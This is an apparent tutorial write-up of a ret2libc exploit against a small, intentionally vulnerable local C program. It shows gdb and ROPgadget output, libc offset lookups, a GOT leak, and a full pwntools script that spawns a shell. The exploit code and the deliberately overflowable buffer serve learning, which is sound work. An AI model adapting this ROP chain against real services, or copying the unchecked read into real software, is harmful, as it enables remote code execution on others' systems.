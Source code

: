 # Another awsome breakdown provided by @legacyy.  I was able to perform my first ret2libc thanks to him.
https://www.legacyy.xyz/  
https://twitter.com/0xLegacyy  

The source code of ret2libc

```c
#include <stdio.h>


int main(int argc, char **argv)
{
    char buf[64]; 
	/* buf variable takes 64 bytes of data */

    puts("Welcome! This is a ret2libc ooooooooo spooky");

    read(0, buf, 1024);
	/* read function takes reads user_input of buf. */

    return 0;
}
```

### Reviewing the list of functions using gdb debugger by typing `info func`.

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  puts@plt
0x0000000000401060  read@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x00000000004011a0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401218  _fini
```

### I will need find the initial offset for the read function from the global offset table. I can find this inside `.got.plt` in ghidra.

```
read function => 0x404020
```

### Using ROPGadget to retrieve offset of pop_rdi gadget:

```
root@kali:~/recon/ret2lib# ROPgadget --binary=./ret2libc | grep rdi
0x00000000004010c6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x0000000000401203 : pop rdi ; ret

pop_rdi => 0x401203
```

### retrieving your read, system and bin_sh offsets from your libc library (x64)

```
I will need to now retrieve my libc offsets using a useful tool named libc-database from github:

git clone https://github.com/niklasb/libc-database.git
cd libc-database
./add /usr/lib/x86_64-linux-gnu/libc.so.6
./identify /usr/lib/x86_64-linux-gnu/libc.so.6 # Will output local-XXXXXXXXXXXXXXXXX
./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh

1. ./add /usr/lib/x86_64-linux-gnu/libc.so.6
Adding local libc /usr/lib/x86_64-linux-gnu/libc-2.31.so (id local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88  /usr/lib/x86_64-linux-gnu/libc-2.31.so)
  -> Writing libc /usr/lib/x86_64-linux-gnu/libc-2.31.so to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.so
  -> Writing symbols to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.symbols
  -> Writing version info

2. ./identify /usr/lib/x86_64-linux-gnu/libc.so.6
local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88

3. ./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh
offset_read = 0x00000000000eee80
offset_system = 0x0000000000048e50
offset_str_bin_sh = 0x18a152
```

### found the following libc addresses:
```
offset_read       => 0xeee80
offset_system	  => 0x48e50
offset_str_bin_sh => 0x18a152
```

### To leak the libc_read address, I will need to initialize the rop chain.

```py
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main
```

### sending the buf payload to the binary by typing `p.sendline(buf)`

### Cleaning up the leaked address

`leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))`

- To properly clean the leaked address you must first retrieve it by typing `p.recvuntil(b"\n")`. Then to remove the newline at the end of the address by typing `[:-1]`.
- Then you will need to pad the address to equal 8 bytes to the left, this can be done by using `ljust`. `p.recvuntil(b"\n")[:-1].ljust(8, b"\x00")`
- After padding the address you can unpack the address by using `u64`.

Once cleaned the leaked_libc_read should look like `0x7fe39de9be80`

### Finding your libc_base address

To find your libc_base address you can minus `libc_read` by `leaked_libc_read`.

`libc_base = leaked_libc_read - libc_read`

### Proceeding with adding `libc_system` to `libc_base` and `libc_bin_sh` to `libc_base` to get your system/bin_sh pointer.

`system_ptr = libc_base + system_libc`

`bin_sh_ptr = libc_base + libc_bin_sh`

### Now that you have the necessary functions to call system, create a new rop chain and call system and get a shell. *Reminder* You will need to ensure the rop chain equals to the multiple of 16 so the chain we are executing was not originally a multiple of 16.  To resolve this, we had found a ret; gadget to make it 32 bytes which makes it a multiple of 16 `32 / 16 = 2`.

```py
buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.
```

### Next, send the new rop chain payload to the binary and execute your system shell.

```bash
python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 5862
Leaked libc => 0x7fdbf2255e80
libc base => 0x7fdbf2167000
system pointer => 0x7fdbf21afe50
bin_sh pointer => 0x7fdbf22f1152

[*] Switching to interactive mode
$ whoami
root

```

### My exploit script

```py
from pwn import *

p = process("./ret2libc")

main_ptr = 0x401156 # offset for main().
puts_ptr = 0x401050 # offset for puts().
pop_rdi = 0x401203 # offset for pop rdi; ret;
read_got = 0x404020 # offset for read() in the global offset table
ret_gt = 0x40101a # ret gadget

libc_read = 0xeee80 # libc read function offset from libc.so.6
system_libc = 0x48e50 # libc system function offset from libc.so.6
libc_bin_sh = 0x18a152 # libc /bin/sh string offset from libc.so.6

#Receive initial text
p.recvline()

# ROP Chain #1
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main

# send ROP chain
p.sendline(buf)

# receive line until a new line and retrieve the leaked libc address.  ljust by adding padding nullbytes until its 8 bytes long then unpack the address so that the address.
leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))

# Successfully retrieved leaked libc
print(f"Leaked libc => {hex(leaked_libc_read)}")

# Retrieve data
p.recvline()

# Getting the libc base address by minus leaked libc offset against libc_read
libc_base = leaked_libc_read - libc_read
# Getting system pointer by adding system_libc to libc_base
system_ptr = libc_base + system_libc
# Getting /bin/sh pointer by adding libc_bin_sh to libc_base
bin_sh_ptr = libc_base + libc_bin_sh

print(f"libc base => {hex(libc_base)}")
print(f"system pointer => {hex(system_ptr)}")
print(f"bin_sh pointer => {hex(bin_sh_ptr)}")
print()

buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.

# send new rop chain
p.sendline(buf)
p.interactive()
```
